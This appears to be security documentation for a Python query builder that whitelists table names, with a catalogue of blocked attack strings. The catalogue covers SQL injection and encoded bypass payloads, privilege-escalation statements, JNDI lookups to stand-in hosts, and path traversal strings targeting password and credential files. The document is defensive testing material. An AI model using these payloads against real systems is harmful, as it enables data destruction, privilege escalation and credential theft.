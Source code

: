 ```python
        if table_name not in self.ALLOWED_TABLES:
            logger.warning(f"Attempted access to non-allowed table: {table_name}")
            raise ValueError(f"Table name not allowed: {table_name}. Allowed tables: {sorted(self.ALLOWED_TABLES)}")
        
        return table_name
```

**Security Benefits of Whitelist Approach:**
1. **Positive Security Model**: Only explicitly allowed tables can be accessed
2. **Attack Surface Reduction**: Eliminates entire classes of injection attacks
3. **System Table Protection**: Prevents access to PostgreSQL system tables (pg_user, pg_shadow, information_schema)
4. **Future-Proof**: New tables must be explicitly whitelisted, preventing accidental exposure

##### **Comprehensive Attack Vector Prevention**

The SecureQueryBuilder blocks **35+ distinct attack vectors** tested in our security validation:

**Classic SQL Injection Prevention:**
```python
# BLOCKED: Classic injection attempts
"cwe_embeddings'; DROP TABLE users; --"
"cwe_embeddings UNION SELECT password FROM auth_tokens --"
"cwe_embeddings/**/UNION/**/SELECT/**/1,2,3,4,5--"
"cwe_embeddings' OR '1'='1"
```

**Advanced Injection Techniques Blocked:**
```python
# BLOCKED: Time-based blind injection
"cwe_embeddings'; SELECT pg_sleep(10); --"

# BLOCKED: Stacked queries for privilege escalation
"cwe_embeddings; CREATE USER hacker WITH SUPERUSER;"

# BLOCKED: PostgreSQL-specific attacks
"cwe_embeddings; ALTER TABLE users ADD COLUMN backdoor TEXT;"
"cwe_embeddings; GRANT ALL ON ALL TABLES IN SCHEMA public TO PUBLIC;"
```

**Encoded Attack Prevention:**
```python
# BLOCKED: Various encoding bypasses
"cwe_embeddings%27%3B%20DROP%20TABLE%20users%3B%20--"  # URL encoded
"cwe_embeddings\\u0027\\u003B\\u0020DROP\\u0020TABLE"    # Unicode encoded
"%2527%253B%2520DROP%2520TABLE%2520users%253B%2520--"   # Double encoded
```

**LDAP and Path Traversal Prevention:**
```python
# BLOCKED: LDAP injection attempts
"${jndi:ldap://malicious.com/exploit}"
"${jndi:rmi://evil.com:1099/exploit}"

# BLOCKED: Path traversal attempts
"../../../etc/passwd"
"..\\..\\windows\\system32\\config\\sam"
"cwe_embeddings/../../../etc/shadow"
```
